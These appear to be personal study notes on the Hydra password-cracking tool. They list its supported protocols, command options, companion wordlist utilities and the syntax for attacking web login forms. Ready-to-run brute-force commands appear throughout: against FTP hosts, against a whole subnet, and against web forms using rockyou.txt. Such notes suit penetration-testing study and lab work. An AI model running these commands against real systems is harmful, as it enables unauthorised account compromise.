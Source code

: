 login cracker  
supports:  
```
Cisco AAA, Cisco auth, Cisco enable, CVS, FTP, HTTP(S)-FORM-GET, HTTP(S)-FORM-POST, HTTP(S)-GET, HTTP(S)-HEAD, HTTP-Proxy, ICQ, IMAP, IRC, LDAP, MS-SQL, MySQL, NNTP, Oracle Listener, Oracle SID, PC-Anywhere, PC-NFS, POP3, PostgreSQL, RDP, Rexec, Rlogin, Rsh, SIP, SMB(NT), SMTP, SMTP Enum, SNMP v1+v2+v3, SOCKS5, SSH (v1 and v2), SSHKEY, Subversion, Teamspeak (TS2), Telnet, VMware-Auth, VNC and XMPP
```
list may differ (depending on libraries found during compile time) - `hydra` to check  

hydra [options]  [-s PORT]  [TARGET PROTOCOL]  [MODULE OPTIONS]

### examples
`sudo hydra -l admin -P common_passwd.txt ftp://192.168.1.103`

`sudo hydra -l root -p root ftp://[192.168.0.0/24]/`
[] needed when passing CIDR or IPv6

`sudo hydra -e snr ftp://192.168.1.103`


### contains:
- `dpl4hydra` - generates dpl (default passwd list) of main vendors of network devices (aka brand)  
depends on `~/.dpl4hydra/dpl4hydra_full.csv`  
list of brand - `~/.dpl4hydra/dpl4hydra_BRAND.lst`  
e.g.  
`dpl4hydra dell` - creates a dpl for dell in `~/.dpl4hydra/`  

- `pw-inspector` - reads passwords in and prints those which meet the requirements  
e.g.  
`pw-inspector -i /usr/share/wordlists/rockyou.txt -o ~/workspace/passes.txt -m 6 -M 10 -n`  
`-i` read form that  
`-o` redirect output here  
`-m 6` min. length 6  
`-M 10` max. length 10  
`-n` must contain numbers  

- `hydra-wizard` - wizard asking neccessary questions to launch hydra  
(lame)  

- `hydra`

### options
single target - IPv4, IPv6 or hostname  
network range - "192.168.1.0/24"
list of hosts - `-M FILE` with one entry:port/line

it NEEDS service passed like `ftp://`  
port is needed only if not default  

`-R` restore previously aborted session  
(only one `hydra.restore` file - get's overwritten!)

`-S` via SSL
`-O` via SSL v2 or v3 (old SSL)  

`-s PORT` if service on wierd port  

`-l LOGIN`  
`-p PASS`  

`-L FILE` with logins  
`-P FILE` with passwds
`-C FILE` instead of `-L/-P`  
login:pass format  

`-e nsr` additional checks  
`n` null passwd, `s` login as pass, `r` reverted login as pass

`-x min:max:charset` generate passwds  
min length, max length,  
charset: `1` - numbers, `a` lowercase letters, `A` uppercase letters  
`-y` use symbols in `-x` bruteforce  

`-u` -> passwd checked on all logins -> next passwd  **THIS!!!**  
by default `hydra` checks all passwd for one login -> next login  

`-f` exit after first found login/passwd pair (if `-M` - per host)
`-F` exit after first found login/passwd pair on ANY host (for usage with `-M`)

`-M FILE` with list of servers to paralelly attack.
one entry/line  
: to specify port  

`-o FILE` to write found credentials  

`-b FORMAT` specify format of output file (text by default)

`-t TASKS` number of parallel connections (default - 16)

`-m OPTIONS` options for current module  
to check module options run `hydra -U PROTOCOL`  
e.g. `hydra -U smtp`

`-w TIME` timeout (default 22s)  

`-W TIME` connection delay of current task
Only make sense when low `-t` (like `-t 1`)

`-c TIME` connection delay over all threads (tasks)  
Only make sense when low `-t`  

`-4/-6` prefere IPv4 or IPv6

`-v` show login+pass combination for each attempt
### modules
#### http-post-form, https-post-form, http-get-form, https-get-form

either `www.example.com module optional_module_parameters`
or `module://www.example.com/optional-module-parameters`
(I have no idea how to properly use former)

`[url]:[form parameters]:[condition string][:(optional)[:(optional)]`
`[url]` - page on the server to GET or POST
`[form parameters]` - POST/GET variables (taken from either the browser, proxy, etc. with usernames and passwords being replaced in the “`^USER^`” and “`^PASS^`”
`[condition string]` - checks for success or failure of logon
Invalid condition login check can be preceded by “`F=`”, successful condition login check must be preceded by “`S=`”

e.g.
`sudo hydra -l admin -P rockyou.txt 10.10.141.47 -s 80 http-post-form "/admin:user=^USER^&pass=^PASS^:F=<p>Username or password invalid</p>" -o output_hydra`
or
`sudo hydra -l admin -P rockyou.txt 10.10.42.179 -s 10000 https-post-form "/:user=^USER^&pass=^PASS^:F=Login failed. Please try again." -o output_hydra2`